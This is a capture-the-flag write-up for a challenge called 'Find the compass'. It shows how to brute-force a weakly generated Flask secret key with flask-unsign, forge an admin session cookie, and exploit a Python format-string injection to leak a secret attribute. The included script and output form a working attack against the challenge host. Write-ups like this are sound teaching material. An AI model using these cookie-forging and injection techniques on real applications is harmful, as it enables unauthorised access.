


# Find the compass



By looking at the source, we can see mutiple interesting things :

In : find_the_compass/lib/remindersRenderer.py
```python
class Renderer(object):
    """
    Proof of Concept to one day get rid of Jinja2. Who needs Jinja2 ?
    """
    def __init__(self, coordinates: str):
        # Only a wise administrator can retrieve the coordinates of the compass.
        self.coordinates = coordinates

    def render(self, author, content):
        author = escape(author)
        content = escape(content)
        htmlTemplate = f"<p><strong>{author}</strong>: {content}</p>"
        try:
            #Use escape for XSS protection
            return (htmlTemplate.format(self=self))
        except Exception as e:
            print(e)
            return "An error occured while rendering the reminder."
```

The above code seems to be vulnerable because we could inject someting like `{self.coordinate}` to get this variable. Unfortunately, we need to be authenticated to perform that.

In : find_the_compass/lib/utils.py
```python
def generate_key() -> str:
    """Generate a random key for the Flask secret (I love Python!)"""
    return (''.join([str(x) for x in [(int(x) ^ (int(time()) % 2 ^ randint(0, 2))) for x in [int(char) for char in str(digits[randint(0, 9)]) * 4]]])).rjust(8, '0')
```

The above function is used to generate the flask secret key. Let's decompose it.

First, `[int(char) for char in str(digits[randint(0, 9)]) * 4]` generates a list with 4 time the same number, like `[4, 4, 4, 4]`, which means:

```python
def generate_key() -> str:
    """Generate a random key for the Flask secret (I love Python!)"""
    return (''.join([str(x) for x in [(int(x) ^ (int(time()) % 2 ^ randint(0, 2))) for x in four_time_same()]])).rjust(8, '0')
```

The each number (that are the same) as operated with `(int(x) ^ (int(time()) % 2 ^ randint(0, 2)))` which means `x ^ (0 or 1) ^ (0, 1 or 2)`. By calculating all possibilities, we can find out that :

```python
>>> 0^0
0
>>> 0^1
1
>>> 0^2
2
>>> 1^0
1
>>> 1^2
3
>>> 1^3
2
```

So we have `x ^ (0, 1, 2 or 3)`

The function ends by transforming these numbers in string and adding 0 at the start to create a 8 chars string.

It's easy to generate all posibilities : 

```python
possible = [0, 1, 2, 3]
l = []
for i in range(10): # four time the same number
    for w in possible: # test all posibilites for each numbers
        for x in possible:
            for y in possible:
                for z in possible:
                    eq = f"{i^w}{i^x}{i^y}{i^z}".rjust(8, '0')
                    if not eq in l: # its possible that 2 equation generate the same key
                        l.append(eq)

print(f"Total : {len(l)}")
```

This gives us a total of 768 possibilities, that's way to much to bruteforce it in remote.

Fortunately, we can see that a session cookie is generated evn if we aren't connected : `.eJwNzMENwyAMAMBd_M4DjAGTZSIHbFQpIg_IK-ru7Q1wL1x379qOz4Dd5Jq6wbhHVdhBkDVqdMhJqZwpK9USPDfLGFwjJznlahHZs7iGgahotOCrQzmLwQZzyXrm_-qPzgXfH0y8IOA.ZeR8GQ.vi26B3Qn0X6VralO6kBbQmcyeKA`

Let's try to bruteforce the key using [flask-unsign](https://github.com/Paradoxis/Flask-Unsign).


```python
from os import popen
from requests import get
possible = [0, 1, 2, 3]
l = []
for i in range(10):
    for w in possible:
        for x in possible:
            for y in possible:
                for z in possible:
                    eq = f"{i^w}{i^x}{i^y}{i^z}".rjust(8, '0')
                    if not eq in l:
                        l.append(eq)
                        #print(eq)

print(f"Total : {len(l)}")

f = open("brt.txt", 'w')    
f.write("\n".join(l))
f.close()

print("Bruteforcing")
token = get("http://worker01.gcc-ctf.com:13229/logout").cookies["session"]
command = f'flask-unsign --wordlist brt.txt --unsign --cookie "{token}" --no-literal-eval'
print(command)

res = popen(command).read()
print(res)

print("Forging token")

secret_key = res.replace("'\n", "").replace("b'", "")

print(f"Secret key : {secret_key}")

command = f"flask-unsign --sign --cookie \"{{'username':'admin', 'status':'admin', 'logged_in':True}}\" --secret \"{secret_key}\""
print(command)
print(popen(command).read())
```

```
Total : 768
Bruteforcing
flask-unsign --wordlist brt.txt --unsign --cookie ".eJwNzMENwyAMAMBd_M4D44BNlqmIbVCliDwgr6q7tzfAfeC6e3d7vQccrV7TNxj3UIcDaizJOO9nFEFkwV2LJifLHGJN0ohRm0pVOUkCRpRMzMGoSJNgsMFcdT3zf_XH54LvDzX5IF0.ZeR86g.BOkmjDiAxSssa63D-g3H4MCs650" --no-literal-eval
[*] Session decodes to: {'logged_in': False, 'nonce': 'a295d764b288117814c9c5e3d6702a58f371cfc8ac8b380121863770d398f80d', 'status': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 256 attempts
b'00003303'

Forging token
Secret key : 00003303
flask-unsign --sign --cookie "{'username':'admin', 'status':'admin', 'logged_in':True}" --secret "00003303"
.eJyrViotTi3KS8xNVbJSSkzJzcxT0lEqLkksKS1GEsjJT09PTYkHsq1KikpTawH_xRLR.ZeR86w.DJLFiPs3jCWCgGO_M0v5BvO8qsE
```

Now that we have the token, it's possible to replace the old one ans refresh the page.

If we create the reminder `{self.coordinates}`, the flag appears.



Thals for the challenge !
